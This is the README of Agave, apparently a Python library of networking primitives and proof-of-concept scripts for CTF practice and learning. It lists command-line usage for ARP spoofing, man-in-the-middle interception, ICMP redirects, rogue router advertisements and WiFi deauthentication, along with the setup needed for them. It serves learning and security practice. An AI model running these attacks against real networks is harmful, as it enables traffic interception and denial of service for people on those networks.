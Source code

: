 # Agave

Agave aims to provide "primitives" to speed up the development of "proof of concept" and "capture the flag" security related scripts concerning networking. Efficiency and best practice are not the main goal, ease of reuse is.

It started as a collection of scripts shared to show some knowledge of networking to potential recruiters. Now is migrating towards a library to build customizable tools to combine together to enact more complex scenarios. Yet general purpose scripts are still included as they are both an "how to" guide of the library, and "primitives" themselves.

The main motivation behind the development of the project comes from the curiosity to learn more about network protocols and vulnerabilities. Agave is a byproduct of learning-by-doing.

## Note/TODOs
At the moment the main goal is to add new models for protocols to the package *core*.
For each protocol I'm adding some PoC scripts, but I don't know what to do with them yet.

## Examples

#### Working with PCAP Next Generation
```
from agave.utils.pcapng import StreamLoader, StreamDumper
from agave.core.pcapng import LINKTYPE_ETHERNET

with StreamDumper.from_file("test.pcapng") as dumper:
	dumper.start_section()
	dumper.add_interface("eth0", linktype=LINKTYPE_ETHERNET, snaplen=4096)
	dumper.edump("eth0", b'\x00.....', comment="Test!")
	...

with StreamLoader.from_file("test.pcapng") as loader:
	for interface, data in loader.stream_section():
		print(interface, data)
		...

```

## Usage of the PoC scripts

##### Requirements

To use raw socket:
- Linux (POSIX?)
- CAP_NET_RAW capability or SUDO privileges

For some scripts the following configuration might be necessary:
```
# Enable IP forwarding
echo 1 | sudo tee /proc/sys/net/ipv4/conf/*/forwarding
echo 1 | sudo tee /proc/sys/net/ipv6/conf/*/forwarding
# Prevents ICMPv4 redirect messages
echo 0 | sudo tee /proc/sys/net/ipv4/conf/*/send_redirects
```

### NIC

Retrieve network interfaces information.
```
python3 -m agave.utils.interfaces [interface]
python3 -m agave.utils.interfaces
python3 -m agave.utils.interfaces wlan0
```

### ARP

Retrieving link layer address(es). This allows host discovery as well by resolving addresses for subnets. Note that some host/switch might leak informations about other networks they are connected to. An interface name must me specified when no interface on the system is in the same network of the subnet being scanned.
```
python3 -m agave.arp.resolve <IP|subnet> [interface]
python3 -m agave.arp.resolve 192.168.0.1
python3 -m agave.arp.resolve 192.168.1.0/4
python3 -m agave.arp.resolve 192.168.2.1/32	eth0
python3 -m agave.arp.resolve 192.168.3.0/24	wlan0
```

Listening for incoming messages to discover hosts and interaction between them.
```
python3 -m agave.arp.listen
```

Translating MAC address into IPv4 address. Note that RARP protocol is obsolete.
```
python3 -m agave.arp.reverse <mac> <interface>
python3 -m agave.arp.reverse aa:bb:cc:00:11:22 eth0
```

ARP Spoofing. The script replies to ARP requests with spoofed messages in order to redirect traffic for the target subnet to your host. The optional victim argument restricts spoofing to some hosts. With the option -f gratuitous spoofed replies are sent periodically to the victim.
```
python3 -m agave.arp.spoof <target> [victim] [-f]
python3 -m agave.arp.spoof 192.168.1.4
python3 -m agave.arp.spoof 192.168.1.4/2 192.168.1.1/32
python3 -m agave.arp.spoof 192.168.1.10/32 192.168.1.0/24 -f
```

MITM. Man in the middle using ARP spoofing. With the option -f gratuitous spoofed replies are sent periodically to the victim.
```
python3 -m agave.arp.mitm <alice> <bob> [-f]
python3 -m agave.arp.mitm 192.168.1.1 192.168.1.5
python3 -m agave.arp.mitm 192.168.1.1 192.168.1.5 -f
```

### ICMPv4

Ping sweep. Discovers hosts in a subnet by sending echo requests. Using the option -m is possible to obtain a list of host for which neither a reply or destination unreachable message was received.
```
python3 -m agave.icmp.ping <subnet> [-m]
python3 -m agave.icmp.ping 192.168.1.0/24
python3 -m agave.icmp.ping 192.168.1.1/24 -m
```

Obtaining a network mask. Note that these ICMP messages are deprecated, and might not be supported anymore.
```
python3 -m agave.icmp.mask <ip>
python3 -m agave.icmp.mask 192.168.1.1
```

Redirecting traffic. Check the [source code](agave/icmp/redirect.py) for more details.
```
python3 -m agave.icmp.redirect <target> <attacker> <victim> <gateway> [delta] [trigger]
```
Example:
*victim* reaches a *target* host (Google DNS) through the router *gateway*. With an ICMP redirect message is possible to redirect the traffic to use another router (the *attacker*) instead.
```
python3 -m agave.icmp.redirect 8.8.8.8 192.168.0.2 192.168.0.3 192.168.0.1
```

### IRDP

Listing routers available on the network. 
```
python3 -m agave.irdp.solicit
```
Advertising a list of routers.
```
python3 -m agave.irdp.advertise <preference> <router> [...[<preference> <router>]]
python3 -m agave.irdp.advertise 100 192.168.1.10
python3 -m agave.irdp.advertise 100 192.168.1.10 50 192.168.1.20
```

### ICMPv6
Ping sweep.
```
python3 -m agave.icmpv6.ping <ip|subnet> [-m]
python3 -m agave.icmpv6.ping fe80::7ef9:33ff:feaa:bbcc
```

### NDP
Retrieving link layer address(es).
```
python3 -m agave.ndp.resolve <ip|subnet> [interface]
python3 -m agave.ndp.resolve fe80::7ef9:33ff:feaa:bbcc/128
```

Listing routers available on the network. 
```
python3 -m agave.ndp.routers <interface>
python3 -m agave.ndp.routers eth0
```

Advertising an interfaces as default router.
```
python3 -m agave.ndp.advertise <interface> [[prefix], ...]
python3 -m agave.ndp.advertise eth0
python3 -m agave.ndp.advertise eth0 2001:4860:4860::8888/128
```

### IEEE 802.11 (WiFi)
__Note__: scripts in this section require an interface in monitor mode.
```
iw dev wlan0 interface add mon0 type monitor
ifconfig mon0 up
iw mon0 interface del                           # delete after use
```

__Note__: scripts do not attempt to change the current channel of the interface, it must be done separately.
```
ip link set wlan0 down			# put the real interface down
iwconfig mon0 channel <channel> 	# set the channel, e.g, 1, 6, 11, ...
ip link set wlan0 up                	# put the interface up again (after use)
```

Scanning the current channel for APs.
```
python3 -m agv.poc.wifi.scan <interface>
python3 -m agv.poc.wifi.scan mon0
```

Retrieving BSSID from SSID
```
python3 -m agv.poc.wifi.bssid <SSID> <interface>
python3 -m agv.poc.wifi.bssid MyWifi mon0
```

Retrieve address of the devices connected to a certain AP. Using the optional argument *wait*, scripts terminates after *wait* seconds.
```
python3 -m agv.poc.wifi.devices <SSID|BSSID> <interface> [wait]
python3 -m agv.poc.wifi.devices MyWifi mon0 5
python3 -m agv.poc.wifi.devices 0a:bb:cc:11:22:33 mon0
```

Deauthentication attack. The optional argument *interval* specify the interval between deauthentication frames. If not used, only a frame is sent.
```
python3 -m agv.poc.wifi.deauth <SSID|BSSID> <victim> <interface> [interval]
python3 -m agv.poc.wifi.deauth 0a:bb:cc:11:22:33 00:bb:cc:11:22:33 mon0
python3 -m agv.poc.wifi.deauth MyWifi 00:bb:cc:11:22:33 mon0 2
```